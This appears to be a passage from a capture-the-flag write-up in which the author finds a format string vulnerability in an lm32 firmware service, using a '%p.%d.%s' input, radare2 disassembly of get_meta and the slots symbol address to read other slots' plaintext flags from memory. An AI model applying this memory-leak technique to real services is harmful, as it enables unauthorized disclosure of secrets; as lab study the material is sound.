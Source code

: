 ```
encrypt EECFA9507EC6FC7CF922CB605D43BA99E9E1380E933B022320B6654DF27A07AE78542164BBFB98FE7C7E3BB67522A4C5DA5725F902367102640B3C86DF876B5900000011 %p.%d.%s    
055A289B1F39CBB10C0503F9EC5A852840031B64B6BD960C0B0ECF829B097139B00045DFB4F50FEA0D2B26471F1B975FA23F49AE224119D26141456EDDAAEF0E31F03FE30664FA6960
```
```
decrypt 0 055A289B1F39CBB10C0503F9EC5A852840031B64B6BD960C0B0ECF829B097139B00045DFB4F50FEA0D2B26471F1B975FA23F49AE224119D26141456EDDAAEF0E31F03FE30664FA6960
OK
```
```
getmeta 0
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX0x4002f6b8.0.@��@�lGETMETA
```
Yeah! We've got a format string vulnerability here!

The radare2 disassembler confirms:
```
$ r2 -v
radare2 5.5.0 1 @ linux-x86-64 git.
commit: b50c2c35acd266f1b18bbbcfe0c63d9d0331b09d build: 2021-11-14__22:46:21

$ r2 -a lm32 firmware.exe
[0x40000000]> s sym.get_meta
[0x40006f2c]> pdb
┌ 32: sym.get_meta ();
│           0x40006f2c      379cfffc       addi sp, sp, 0xfffffffc     ; init.c:231
│           0x40006f30      5b9d0004       sw ra, sp, 0x4
│           0x40006f34      3781000c       addi r1, sp, 0xc            ; init.c:232
│           0x40006f38      f8005099       calli sym.printf  <<<<
│           0x40006f3c      34010001       mvi r1, 0x1                 ; init.c:234
│           0x40006f40      2b9d0004       lw ra, sp, 0x4
│           0x40006f44      379c0004       addi sp, sp, 0x4
│           0x40006f48      c3a00000       ret
```

It allows us to read arbitrary memory location! E.g., `plaintext` of other slots (where flags are stored
as plaintext)!

We can see `slots` symbol with its memory location in the symbols list:
```
   780: 4002f530 0x47c70 OBJECT  GLOBAL DEFAULT   12 slots
```
By the way, the same address we see in `server.py` :) 
```
SLOT_AREA_START = 0x4002f530  # Keep in sync with firmware!
```

What does `server.py` do with it?  It sends `memsave` command to qemu monitor socket:
```
cmd = "memsave 0x{:08x} {} {}\n".format(SLOT_AREA_START, SLOT_AREA_SIZE, SLOT_AREA_FILE)
```
So we can explore `SLOT_AREA_FILE = "state/slots.dump"` contents for determining the exact offset.
